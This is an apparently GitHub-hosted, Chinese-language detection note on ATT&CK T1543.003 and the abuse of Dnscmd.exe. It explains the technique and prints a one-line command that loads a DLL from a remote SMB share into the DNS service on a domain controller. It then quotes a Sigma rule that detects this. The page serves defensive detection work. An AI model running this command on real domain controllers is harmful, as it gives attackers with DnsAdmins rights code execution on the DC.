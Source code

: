 # T1543-003-windows服务-Dnscmd.exe(白名单)
## 来自ATT&CK描述
作为持久性的一部分，攻击者可能会创建或修改Windows服务以重复执行恶意负载。当Windows启动时，它会启动程序或称为服务的应用程序来执行后台系统功能。Windows服务配置信息，包括服务的可执行文件或恢复程序/命令的文件路径，存储在 Windows 注册表中。可以使用sc.exe和Reg等实用程序修改服务配置。

攻击者可以通过使用系统实用程序与服务交互、直接修改注册表或使用自定义工具与Windows API交互来安装新服务或修改现有服务。攻击者可能会将服务配置为在启动时执行，以便在系统上建立持久性。

攻击者还可以通过使用来自相关操作系统或良性软件的服务名称或通过修改现有服务来结合伪装，使检测分析更具挑战性。修改现有服务可能会中断其功能或启用已禁用或不常用的服务。

可以使用管理员权限创建服务，但需要在SYSTEM权限下执行，因此攻击者也可以使用服务将权限从管理员提升到 SYSTEM。攻击者也可以通过服务执行直接启动服务。

## 测试案例
Dnscmd.exe用于管理DNS服务器的命令行界面。此实用程序可用于编写批处理文件脚本以帮助自动化日常DNS管理任务，或在网络上执行简单的无人值守设置和配置新DNS服务器。

路径：
```
-   C:\Windows\System32\Dnscmd.exe
-   C:\Windows\SysWOW64\Dnscmd.exe
```

添加特制DLL作为DNS服务的插件。 此命令必须由至少是DnsAdmins组成员的用户在DC上运行。更多使用方法请参看[微软官方说明](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd)。
```bash
dnscmd.exe dc1.lab.int /config /serverlevelplugindll \\192.168.0.149\dll\wtf.dll
```
用例：远程向dns服务器注入dll
所需权限：DNS管理员
操作系统：Windows服务器

## 检测日志
Windows 安全日志
## 测试复现
无
## 测试留痕
无
## 检测规则/思路
这里参看Sigma官方规则：
```yml
title: DNS ServerLevelPluginDll Install

id: f63b56ee-3f79-4b8a-97fb-5c48007e8573

related:

- id: e61e8a88-59a9-451c-874e-70fcc9740d67

type: derived

status: experimental

description: Detects the installation of a plugin DLL via ServerLevelPluginDll parameter in Registry, which can be used to execute code in context of the DNS server

(restart required)

references:

- https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83

date: 2017/05/08

modified: 2021/09/12

author: Florian Roth

tags:

- attack.defense_evasion

- attack.t1073 # an old one

- attack.t1574.002

- attack.t1112

logsource:

category: process_creation

product: windows

detection:

dnsadmin:

Image|endswith: '\dnscmd.exe'

CommandLine|contains|all:

- '/config'

- '/serverlevelplugindll'

condition: dnsadmin

falsepositives:

- unknown

level: high

fields:

- EventID

- CommandLine

- ParentCommandLine

- Image

- User

- TargetObject
```
## 参考推荐

MITRE-ATT&CK-T1543-003

<https://attack.mitre.org/techniques/T1543/003>

Dnscmd.exe

<https://lolbas-project.github.io/lolbas/Binaries/Dnscmd/>

Sigma:process_creation_dns_serverlevelplugindll

<https://github.com/SigmaHQ/sigma/blob/b08b3e2b0d5111c637dbede1381b07cb79f8c2eb/rules/windows/process_creation/process_creation_dns_serverlevelplugindll.yml>